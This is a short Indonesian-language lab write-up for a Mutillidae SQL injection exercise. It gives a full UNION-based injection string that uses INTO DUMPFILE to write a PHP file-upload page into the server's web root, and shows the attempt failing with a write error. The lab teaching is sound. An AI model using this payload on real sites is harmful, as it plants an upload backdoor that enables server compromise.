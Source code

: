 # Mutillidae Lesson 11


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%211/1.png)

### SQL Injection dengan Output File upload_file.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
![](Mutillidae%20lesson%211/2.png)
- Dan pada tombol View Account Details ubah align menjadi left.
![](Mutillidae%20lesson%211/3.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2011/4.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2011/5.png)
